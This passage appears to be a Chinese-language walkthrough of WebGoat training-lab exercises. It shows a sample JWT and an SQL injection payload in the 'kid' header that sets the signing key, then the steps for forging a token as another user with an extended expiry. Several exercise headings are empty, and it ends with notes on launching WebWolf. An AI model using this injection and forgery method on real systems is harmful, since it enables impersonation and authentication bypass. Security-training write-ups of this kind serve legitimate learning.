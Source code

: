
eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiSmVycnkiLCJFbWFpbCI6ImplcnJ5QHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0.CgZ27DzgVW8gzc0n6izOU638uUCi6UhiOJKYzoEZGE8



1、kid没有防御SQL注入，存在注入点
'; select 'MQ==' from jwt_keys --


2、改变username
Tom


3、改时间戳
1618905304改为现在以后的时间戳
1664703610


3、SQL注入查询的结果会作为签名算法的秘钥来对header和payload进行加密
1




将改后的JWT填上去返回true了

 <img alt="" height="691" src="https://img-blog.csdnimg.cn/0fe8526f46404c9aae08e90a39d5a3ca.png" width="823"/>



---


#### 第5题：

---


---


---


#### 第8题：

---


---


#### 第11题：

> 
<h3>三、Password reset（密码重置）</h3>
<h4>启动webwolf</h4>
webwolf出点问题了（在powershell下，解决方法好像是需要将编码方法引起来）

 java -Dfile.encoding=UTF-8 -jar webwolf-8.2.2.jar
（在管理员命令提示符下成功了）

